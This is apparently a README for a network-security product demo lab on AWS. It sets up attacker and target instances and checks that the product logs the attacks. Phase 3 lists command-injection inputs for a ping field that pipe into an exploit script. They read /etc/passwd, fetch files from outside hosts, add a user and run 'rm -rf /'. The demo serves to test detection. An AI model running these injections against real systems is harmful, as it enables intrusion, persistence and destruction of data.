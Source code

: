 # Cloud One - Network Security Demo
Requirements:

-- AWS Account
-- NSVA Deployment (Terraform)
-- 2 Ubuntu Linux Instances

## Phase1 - Demo Preparation
- Create 2 new Linux Instances;
- The attacker instance must be placed in the same subnet of the bastion machine;
- The target instance must be placed in the workload subnet;
- On the Advanced Options field, paste the script attacker.sh and target.sh (1 script in each instance);

## Phase2 - Testing the Demo
- Connect on the Linux Instance where you executed the attacker script through http://public-ip

-- username: administrator 
-- password: password

- Connect on the Linux Instance where you executed the target script through http://public-ip

## Phase3 - Executing the Demo
- Command Injection Menu
-- Use the "Ping" field to execute the attacks below:
- 127.0.0.1| python http://target-ip/hello "command"
- 127.0.0.1| python exploit.py http://target-ip/hello "ls -la"
- 127.0.0.1| python exploit.py http://target-ip/hello "cat /etc/passwd"
- 127.0.0.1| python exploit.py http://target-ip/hello "wget http://2016.eicar.org/download/eicar.com"
- 127.0.0.1| python exploit.py http://target-ip/hello "curl http://wrs21.winshipway.com/"
- 127.0.0.1| python exploit.py http://target-ip/hello "adduser YouHaveBeenPwned"
- 127.0.0.1| python exploit.py http://target-ip/hello "ls -la"
- 127.0.0.1| python exploit.py http://target-ip/hello "rm -rf /"

## Phase3 - SMS/C1NS Logs
Check the logs

.

